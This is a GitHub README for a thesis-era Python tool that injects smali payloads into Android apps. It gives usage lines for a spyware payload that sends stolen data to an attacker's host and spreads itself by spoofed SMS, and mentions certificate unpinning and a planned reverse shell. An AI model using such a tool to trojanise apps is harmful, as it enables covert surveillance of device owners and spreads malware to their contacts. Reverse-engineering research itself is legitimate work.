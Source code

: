 ![SCI](images/sci_logo.jpg)
# Smali Code Injector
## Automate assembly code (**smali**) injection within Android applications.

The initial ambition of this project was to automate stack trace injections within Android applications in order to facilitate my master thesis work. Being able to log and display applications' runtime method calls along with their returned value greatly helps in reverse engineering complex applications by providing an insight into their logic and workflow. 

Lately, new features and payloads were added in an attempt to create a framework fully capable of injecting any type of assembly code. Users familiar with Android development can easily implement compatible payloads. SCI is in charge of automating low level operation such as registers allocation, dependancie, type, etc. 

*Tampering Android applications has never been that easy!*

More information about Android reverse engineering can be found at:

<http://www.n00blinuxhacker.com/android-pentesting-reverse-engineering-android-app.html>

### Automation for a simpler world
Code injections are performed at the assembly level (smali files) making the differenciation process between legit and modified applications complicated and time consuming - it would require considerable forensic work such as network, permissions, signature and code analysis -.

A high level overview of the steps involved during code injection is:

1. Disassembling the application.
2. Collecting relevant information about the application. 
	* Classes name.
	* Methods name.
	* Registers number and type.
	* etc.
3. Editing the AndroidManifest.xml to add permissions, services and broadcastReceivers (depending on the payload requirements).
4. Injecting and tweaking up the selected payload within the targeted method(s).
5. Reassembling and signing the app with a valid self-signed certificate.

## Usage
### Examples:
#### Generic usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p [payload] -rh [remote_host] -ppg [spoofed_SMS] -s
		
	[-a]: 	applicaion to modify.
	[-t]: 	directory/file where to recursively perform the injection. If this argument is absent, the injection is performed within the whole app.
	[-k]: 	keywords to filter on. Ex: if -k "SSL,X509TrustManager" the payload will only be injected on the method containing SSL in their declaration header - **help for certificate unpinning** -.
	[-p]: 	payload to inject. 
	[-ppg]:	spoofed SMS content to send - **to propagate the malware** -.
	[-rh]:  IP address of the attacker/script for sending the stolen data.
	[-s]:	search for the main activity.

#### Spyware usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p spyware -rh [script] -ppg [spoofed_SMS] 
    
	[-ppg]:	link with the malicious app. 
	[-rh]: 	IP of the remote receiver (or URL of the file responsible for the JSON data handling and parsing (a script example can be found under /scripts/handler.php - do not forget to change the settings to connect to your DB -).

*Advice*: Inject the Spyware on the **onCreate()** method of the main activity.

Identify the main activity - works with obfuscated apps -:

		$ python3 sci.py -a [apps] -s
		
Display the help menu:

		$ python3 sci.py -h
		
#### Logger usage:

		$ python3 sci.py -a [app] -t [target] -k [keyword] -p logger

Connect your phone to your computer and use the following commands to filter and display the modified app runtime method calls:

		$ adb logcat | grep "::trace

## Dependencies
### Third-party libraries
#### colorama 0.3.7:
The *python3-colorama* package is required. 

<https://pypi.python.org/pypi/colorama>

#### tqdm 4.8.4: 
The *python3-tqdm* package is required. 

<https://pypi.python.org/pypi/tqdm>  

## Future Improvements
* Add new payloads (reverse shell).
* Source code optimisation.

## Project Information
This framework was developed in the context of my master thesis work in July 2015.	

## Licenses
### Smali Code Injector:
   Copyright (C) 2015 Alexandre Teyar

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### Apktool:
   Copyright (C) 2010 Ryszard Wiśniewski 

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License. 

### python-progressbar:
   Copyright (C) 2005 Nilton Volpato

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

<http://www.apache.org/licenses/LICENSE-2.0>

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
   limitations under the License.

### smali/baksmali:
   Copyright (c) 2010 Ben Gruver (JesusFreke)
All rights reserved.

Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions
are met:

1. Redistributions of source code must retain the above copyright
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright
   notice, this list of conditions and the following disclaimer in the
   documentation and/or other materials provided with the distribution.
3. The name of the author may not be used to endorse or promote products
   derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE AUTHOR ``AS IS'' AND ANY EXPRESS OR
IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES
OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED.
IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY DIRECT, INDIRECT,
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT
NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE,
DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY
THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT
INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF
THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.
